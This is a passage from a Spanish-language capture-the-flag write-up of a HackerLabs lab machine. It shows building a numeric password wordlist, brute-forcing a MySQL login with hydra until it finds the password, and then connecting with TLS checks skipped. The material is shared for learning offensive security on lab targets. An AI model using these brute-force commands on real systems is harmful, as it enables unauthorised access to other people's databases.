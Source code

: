 utilzamos `seq` para generar una lista de numeros del 0 al 3000 y con `awk` nos aseguramos que se agregue fuerzabruta al inicio de cada parametro y que al final se guarde en un archivo llamado `diccionario_fuerza.txt`.

validamos:

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/1.Avengers/19.png?raw=true "diccionario")

Una vez con el archivo generado procedemos a hacer la fuerza bruta con hydra.

```bash
┌──(root㉿V4lcyfer)-[/home/kali/Music]
└─# hydra -l hulk -P diccionario_fuerza.txt mysql://192.168.1.25
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-07 08:25:41
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 3001 login tries (l:1/p:3001), ~751 tries per task
[DATA] attacking mysql://192.168.1.25:3306/
[3306][mysql] host: 192.168.1.25   login: hulk   password: fuerzabruta2024
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-07 08:26:04

```

Éxito, tenemos la contrasela para la base de datos `fuerzabruta2024`

### 3.6 Conexión a la base de datos MySQL

Probemos conectarnos a la base de datos.

```bash
┌──(root㉿V4lcyfer)-[/home/kali/Music]
└─# mysql -h 192.168.1.25 -u hulk -p
Enter password: 
ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain

```

Bueno, me apareció este error. Lo pude obviar, pero prefiero que, si a alguien le sucede algo similar, sepa cómo superar este inconveniente. Para los curiosos, aquí está la solución: El error "ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain" indica que la conexión TLS/SSL que estás intentando establecer utiliza un certificado que no es confiable, ya que es un certificado autofirmado (self-signed). Esto significa que el certificado no está firmado por una autoridad de certificación (CA) reconocida, lo que genera un problema de confianza en la conexión.

para saltar este error utilizaremos `--skip-ssl`
```bash
┌──(root㉿V4lcyfer)-[/home/kali/Music]
└─# mysql -h 192.168.1.25 -u hulk -p --skip-ssl
Enter password: 
3Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 4086
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```
